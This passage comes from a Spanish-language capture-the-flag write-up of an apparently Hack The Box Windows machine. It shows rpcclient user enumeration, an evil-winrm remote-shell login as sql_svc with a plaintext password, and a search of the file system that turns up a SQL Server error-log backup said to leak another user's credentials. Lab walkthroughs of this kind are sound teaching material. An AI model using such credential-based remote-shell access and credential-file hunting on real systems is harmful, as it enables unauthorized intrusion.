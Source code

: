 ```bash
user:[Brandon.Brown] rid:[0x450]
user:[Ryan.Cooper] rid:[0x451]
user:[sql_svc] rid:[0x452]
user:[James.Roberts] rid:[0x453]
user:[Nicole.Thompson] rid:[0x454]
rpcclient $> 
```

Nos conectamos mediante `Evil-WinRm`.
```bash
❯ evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\sql_svc\Documents> 
```
Si vamos a la raíz de C:, vemos......
```
*Evil-WinRM* PS C:\Users\sql_svc\Documents> cd ../../../
*Evil-WinRM* PS C:\> dir


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         2/1/2023   8:15 PM                PerfLogs
d-r---         2/6/2023  12:08 PM                Program Files
d-----       11/19/2022   3:51 AM                Program Files (x86)
d-----       11/19/2022   3:51 AM                Public
d-----         2/1/2023   1:02 PM                SQLServer
d-r---         2/1/2023   1:55 PM                Users
d-----         4/3/2023  10:34 PM                Windows


*Evil-WinRM* PS C:\> 
```
Una carpeta llamada `SQLServer` y otra `Logs`.
```bash
*Evil-WinRM* PS C:\SQLServer\Logs> dir


    Directory: C:\SQLServer\Logs


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         2/7/2023   8:06 AM          27608 ERRORLOG.BAK


*Evil-WinRM* PS C:\SQLServer\Logs> 
```
Vemos que tenemos otro usuario y su contraseña.
![Hacker ]({{ 'assets/img/posts/htb/escape/4.png' | relative_url }}){: .center-image }
_ERROLOG.BAK_